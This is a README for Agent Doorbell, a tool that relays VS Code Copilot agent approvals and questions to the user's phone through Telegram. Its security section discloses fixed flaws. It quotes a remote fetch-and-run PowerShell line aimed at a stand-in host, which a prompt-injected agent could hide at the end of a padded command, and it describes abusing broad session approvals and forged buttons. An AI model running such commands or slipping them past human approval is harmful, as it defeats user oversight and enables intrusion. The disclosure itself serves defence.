

<div align="center">

# 🔔 Agent Doorbell

**Your VS Code Copilot agents ring your phone when they need you.**
Approve commands, answer questions, and send prompts from Telegram, without going back to the laptop.


[Why](#the-problem-it-solves) · [Features](#features) · [How it works](#how-it-works) · [Quick start](#quick-start) · [Using it](#using-it-from-your-phone) · [Security](#security) · [Reliability](#reliability) · [Limitations](#limitations) · [FAQ](#faq)

</div>

---

## The problem it solves

AI coding agents (like GitHub Copilot's agent mode in VS Code) work on their own, but they regularly stop for a **human in the loop**:

| The agent stops to… | Example |
|---|---|
| 🔐 ask permission | *"Run `npm install`?"* · *"Edit `.vscode/settings.json`?"* · *"Fetch this URL?"* |
| ❓ ask a question | *"Postgres or MySQL?"* |
| ✅ report it's done | *"Tests pass. What next?"* |

These prompts only appear in VS Code. **If you're away from the laptop, the agent just waits**: a five-minute task can sit unfinished for hours because nobody clicked *Allow*. Until now, your options were:

- 🪑 **Stay at your desk** and babysit the agent, or
- ⚠️ **Turn on "approve everything"**, which lets the agent run any command unattended. That's risky.

**Agent Doorbell is the third option.** The agent keeps asking you, but the question comes to your phone too. Each message says what you asked for, what the agent is doing, and exactly what it wants to run. You decide from wherever you are, and VS Code carries on.

<table>
<tr>
<td width="55%" valign="top">

**What arrives on your phone**

> **[#12]** 📁 billing-api · Fix flaky tests
>
> 🧑 You asked: Make the test suite stable in CI
> 💬 Agent: Running the tests serially to find the flaky one.
>
> 🖥️ Run powershell command — Run the test suite:
> ```
> npm test -- --runInBand
> ```
> Tap a button, or type a message to deny with that feedback.
>
> `✅ Allow once` `🔁 Allow this for session`
> `❌ Deny` `🛑 Deny & stop agent`

</td>
<td width="45%" valign="top">

**What happens next**

1. VS Code shows its usual prompt right away.
2. Still unanswered after **60 s**? Your phone rings too.
3. Answer **wherever you are**: phone or laptop.
4. The first answer wins, and the other side updates itself:<br>`💻 Answered in VS Code` or `✅ Allowed once`.

</td>
</tr>
</table>

## Features

| | Feature | Details |
|---|---|---|
| 🔐 | **Approvals** | Shell commands, sensitive file edits, web fetches, and MCP tools, with the full command or diff |
| 🧭 | **Context included** | Every message shows the session, what you asked for, and what the agent said just before asking |
| ❓ | **Questions** | The agent's question, with a button for each option, or type a free-text answer |
| ✅ | **Turn finished** | The agent's last reply. Type a follow-up and it keeps working |
| 🗂️ | **Prompt any session** | `/sessions` lists your VS Code sessions. Pick one and send it prompts from the phone |
| ⏱️ | **Laptop first** | VS Code always asks first. The phone only rings if nobody answered within a minute |
| 🤝 | **First answer wins** | Phone and laptop stay in sync. Answer on either |
| 🛡️ | **Safe by design** | Checked buttons, nothing hidden silently, narrow "allow for session", fails safe (see [Security](#security)) |
| 🔁 | **Always on** | Restarts itself after a crash, starts at logon, and keeps the laptop from sleeping on inactivity |
| 💸 | **Free** | Telegram bots cost nothing. No public URL, ngrok, or webhook needed |

## How it works



| Part | What it does |
|---|---|
| `hook.py` | Copilot hook (`~/.copilot/hooks/agent-doorbell.json`). Runs for **every** Copilot session and hands events to the bridge |
| `bridge.py` | The local service (127.0.0.1 only, token-protected). Decides what goes to the phone, talks to Telegram, and keeps both sides in sync |
| Helper extension | A tiny VS Code extension (`vscode-extension/`) that applies phone answers to prompts already showing in VS Code |
| Supervisor + scheduled task | Keeps the bridge running: restarts it within seconds if it crashes, and starts it at logon |

## Quick start

> **You need:** Windows 10/11 · Python 3.10+ · VS Code with GitHub Copilot (agent sessions) · Telegram on your phone

**1. Get the code**
```powershell
git clone https://github.com/PrashantAHD/Agent-Doorbell.git
cd Agent-Doorbell
```

**2. Create your bot** (1 minute). In Telegram, open **@BotFather**, send `/newbot`, choose a name (e.g. *Agent Doorbell*) and a username ending in `bot`, and copy the token.

**3. Pair it with your phone**
```powershell
python bridge.py setup-telegram
```
Paste the token (input is hidden), open the link it prints on your phone, and tap **START**.

**4. Install and start**
```powershell
powershell -ExecutionPolicy Bypass -File .\install.ps1
python bridge.py test-send        # you should get a message on Telegram
```
This writes the Copilot hook, installs the helper extension, registers the **Agent Doorbell** scheduled task, and starts everything.

**5. Start a new Copilot session in VS Code.** Hooks load when a session starts, so sessions that were already open aren't covered.

> [!TIP]
> To remove everything, run `powershell -ExecutionPolicy Bypass -File .\uninstall.ps1`. Your `config.json` is kept; delete the folder to remove it too.

## Using it from your phone

| On your phone | What it does |
|---|---|
| Tap **✅ Allow once** / **🔁 Allow this for session** / **❌ Deny** / **🛑 Deny & stop agent** | Answers an approval. "For session" covers only that exact command, file, site, or tool |
| Type any message on an approval | Denies it and passes your message to the agent as feedback |
| Tap an option, or type an answer | Answers an agent's question |
| Type a message on a "turn finished" card | Sends it as your next prompt. Tap **👍 End turn** to leave it |
| `/sessions` → tap a session | Picks a VS Code session to prompt. Plain messages then go to it |
| `/prompt <text>` | Sends a prompt to the picked session, even while other requests are open |
| `/session` · `/status` | Shows the picked session · lists open requests |
| `/pause` · `/resume` | Stops or starts phone notifications (VS Code keeps working as usual) |

When several requests are open, type the request number first, for example `#4 1` (allow #4 once).

<details>
<summary><b>⚙️ Settings (<code>config.json</code>)</b></summary>

<br>

Re-run `install.ps1` after changing settings.

| Key | Default | Meaning |
|---|---|---|
| `push_after_seconds` | `60` | How long a prompt, question, or finished turn waits in VS Code before your phone rings |
| `max_wait_hours` | `168` | How long a phone request stays open. It closes as soon as you answer anywhere |
| `keep_awake` | `true` | Stops Windows from sleeping because of inactivity while the bridge runs. The screen still turns off and locks |
| `helper_idle_minutes` | `10` | Closes the helper VS Code window the bridge opened after this long without work. It reopens when needed |
| `notify_turn_end` | `true` | Send "turn finished" cards |
| `provider` | `auto` | `telegram`, `twilio` (WhatsApp), or `auto` (Telegram if paired) |
| `passthrough_tools` | list | Tools that never ring the phone |
| `sensitive_write_globs` | list | Files that always need approval, even inside the workspace |
| `port` | `47615` | Local port of the bridge (127.0.0.1 only) |

Secrets can also come from the `TELEGRAM_BOT_TOKEN`, `TWILIO_ACCOUNT_SID`, and `TWILIO_AUTH_TOKEN` environment variables.

**Advanced / legacy modes:** `turn_hold_minutes` and `questions_via_chat` (experimental: hold finished turns in the hook), `hold_in_hook` (old behaviour: VS Code waits for the phone), and `laptop_popup` with `escalate_after_seconds` / `away_after_seconds` (a laptop popup first). All are off by default.

</details>

<details>
<summary><b>💬 Prefer WhatsApp? (Twilio, paid)</b></summary>

<br>

1. Create a Twilio account and join the WhatsApp sandbox (Console → Messaging → Try it out → *Send a WhatsApp message*).
2. Run `python bridge.py setup`. If a Telegram bot is also paired, set `"provider": "twilio"`. Then run `install.ps1`.
3. Costs about $0.005 per message after the trial credit runs out. WhatsApp only lets the bot message you within 24 hours of your last message to it. Buttons aren't available, so you type `1`/`2`/`3` instead.

</details>

## Security

Agent Doorbell can approve commands on your machine, so it's built to be hard to misuse:

- 🔒 **Local only.** The bridge listens on `127.0.0.1` and checks a secret token on every request.
- 👤 **Only you.** Only your paired Telegram chat is accepted. Messages from anyone else are ignored.
- 🧯 **Fails safe.** If the bridge is down, VS Code just shows its normal prompts. Nothing is ever approved by default.
- 🔐 **TLS done right.** HTTPS is verified against the Windows certificate store (`truststore`), so it also works behind corporate TLS inspection.

### Vulnerabilities fixed

A security review (Oct 2026) found three ways you could be tricked into approving something you didn't intend. All three are fixed and covered by tests.

<details open>
<summary><b>🟠 High: Fake or edited buttons in Telegram</b></summary>

<br>

**The situation:** Anyone who gets your bot token can post messages through your bot and edit its messages. They could edit a real approval so a dangerous command looks harmless, send a fake message with a **❌ Deny** button that actually means "allow", or add a button whose hidden data is a prompt such as "download and run …".

**How you're protected:**
- Every message's buttons carry a random code that's tied to that one message when it's sent.
- A tap counts only if it carries a code the bridge issued, comes from that same message, and is an action that message offered. Anything else is ignored and logged.
- A button tap is never treated as typed text, so a button can't become a prompt.

**What it can't prevent:** someone who has the token can still edit the text of a real message. Keep the token secret (see [Your part](#your-part)).

</details>

<details>
<summary><b>🟡 Medium: Dangerous commands hidden by cutting them short</b></summary>

<br>

**The situation:** The phone used to show only the first 900 characters of a command and didn't say anything was missing. An agent misled by a malicious file or web page could pad a command and put `…; iwr https://evil.example/x.ps1 | iex` at the end, so you'd approve something you never saw. Backticks in a command could also break the message layout and display fake text.

**How you're protected:**
- Up to 2,500 characters are shown. Anything longer shows both its **start and end**, with **"⚠️ N characters NOT shown"** in between.
- Anything cut short can only be **denied** from the phone. Allow it in VS Code after reading it there.
- Backticks are neutralised, so a command can't break out of its code block.

</details>

<details>
<summary><b>🟡 Medium: "Allow for session" approving far more than you saw</b></summary>

<br>

**The situation:** Approving one harmless command (say `git status`) "for the session" used to approve **every** shell command afterwards, and skipped the extra check on sensitive files. A misled agent could ask for something harmless once, then run anything, including writes to `.git/hooks` or `.vscode/tasks.json` that run code later.

**How you're protected:**
- **🔁 Allow this for session** covers only that exact command, that exact file, that one website, or that one MCP tool.
- It isn't offered at all for sensitive files (dotfiles, `.git`, `.vscode`, `package.json`, …) or for files outside the workspace. Those ask every time.

</details>

### Your part

- **Keep the bot token secret.** Never paste it into a chat, email, or file other than `config.json`. If it may have leaked:
  1. Send `/revoke` to **@BotFather** and pick your bot. The old token stops working at once.
  2. Run `powershell -ExecutionPolicy Bypass -File .\uninstall.ps1`, then `python bridge.py setup-telegram` with the new token.
  3. Run `powershell -ExecutionPolicy Bypass -File .\install.ps1`.
- **Read the whole message before tapping Allow**, especially the end of long commands.

> [!NOTE]
> **Known lower-risk issues (not yet fixed):** a phone Allow isn't tied to one exact VS Code prompt, so if one session has several prompts waiting at once, answer in VS Code. And another Windows user on the same machine could take over the bridge's port while it's stopped. `config.json` is readable only by your account and administrators, which limits this.

## Reliability

| What could go wrong | What happens |
|---|---|
| The bridge crashes or hangs | The supervisor restarts it, usually within **10 s**, and Telegram tells you: *"🔁 Agent Doorbell stopped unexpectedly and was restarted."* |
| The supervisor itself is killed | The **Agent Doorbell** scheduled task starts it again within 5 minutes |
| You log off or reboot | The scheduled task starts everything at logon |
| The laptop idles | `keep_awake` stops inactivity sleep while the bridge runs. The screen still turns off and locks |
| Wi-Fi drops | Telegram polling retries until the connection is back |
| The bridge isn't running at all | VS Code shows its normal prompts. Nothing waits for the phone |

> [!IMPORTANT]
> Closing the lid or choosing **Sleep** still sleeps the laptop, and then nothing can reach it. To keep it running with the lid closed, set *Control Panel → Power Options → Choose what closing the lid does → Plugged in: Do nothing*.

If your company blocks scheduled tasks, `install.ps1` falls back to a Startup shortcut. You keep crash restarts, but not the 5-minute check.

## Limitations

- **Windows only:** inactivity handling, the installer, and autostart are Windows-specific.
- **Copilot sessions only:** sessions using the Claude or Codex agents in VS Code have their own hook systems and aren't covered.
- **Answering prompts already showing in VS Code** goes through the helper extension, because the Agents window doesn't load extra extensions. When needed, the bridge opens a minimized helper VS Code window (the first answer takes about 15 s longer). It closes itself after 10 idle minutes, or 2 minutes after the bridge stops. Windows you opened yourself, or windows with files open, are never closed.
- **Questions answered from the phone:** VS Code's question form is cancelled and your answer arrives as your next message. The form shows as cancelled; the agent gets your answer.
- **`/sessions` prompts** are best-effort, especially for sessions that have been idle a long time. You get a ⚠️ message if one doesn't arrive.
- **Two sessions in the same folder waiting at once:** the bridge won't guess which one you mean, so answer on the laptop.
- **Long commands** (over 2,500 characters) can only be denied from the phone.
- **Built on VS Code internals:** it reads session logs and uses internal VS Code commands that aren't a public API, so a VS Code update could break parts of it.

## FAQ

<details>
<summary><b>Can I trust the "💬 Agent" line in a message?</b></summary>

<br>

Treat it as the agent's explanation, not as proof. An agent misled by a malicious file or web page could describe a command as harmless. The command, diff, or arguments shown below it are what actually runs. Always read those before tapping **Allow**.

</details>

<details>
<summary><b>Does my code or chat go through a third-party server?</b></summary>

<br>

Only the messages sent to your phone go through Telegram: the command, diff, question, the agent's last reply, and a short summary of your prompt. Everything else stays on your laptop. Don't use it for sessions whose content mustn't leave your machine.

</details>

<details>
<summary><b>Will my phone buzz for every little thing?</b></summary>

<br>

No. Anything VS Code approves on its own (reads, normal workspace edits, tools you allowed for the session) never reaches the phone. The phone only rings for requests nobody answered within 60 seconds. Use `/pause` for full silence.

</details>

<details>
<summary><b>What if I answer on both phone and laptop?</b></summary>

<br>

The first answer wins. The other side updates itself (`💻 Answered in VS Code` on the phone, or the VS Code prompt disappears), and the later answer is ignored.

</details>

<details>
<summary><b>It works behind my company's proxy / TLS inspection?</b></summary>

<br>

Yes. HTTPS is verified with the Windows certificate store via `truststore`, so a corporate root certificate that Windows trusts also works here.

</details>

<details>
<summary><b>Where are the logs?</b></summary>

<br>

`bridge.log` (the bridge) and `supervisor.log` (restarts) in the project folder. They can contain command text and agent replies, so they're excluded from git.

</details>

## Project layout

```
Agent-Doorbell/
├── bridge.py            # the service: routing, Telegram/WhatsApp, supervisor, local API
├── hook.py              # Copilot hook entry point (fails safe)
├── popup.py             # optional laptop popup (off by default)
├── vscode-extension/    # helper extension that applies phone answers in VS Code
├── build_vsix.py        # packages the helper extension
├── install.ps1          # hooks + extension + scheduled task + start
├── uninstall.ps1        # removes all of the above
├── requirements.txt     # truststore
├── LICENSE              # MIT
└── tests/               # python -m unittest discover -s tests
```

## License

[MIT](LICENSE) © 2026 Prashant Kumar

---

<div align="center">
<sub>Agent Doorbell is an independent project and isn't affiliated with Microsoft, GitHub, or Telegram. "VS Code", "GitHub Copilot", and "Telegram" are trademarks of their owners.</sub>
</div>
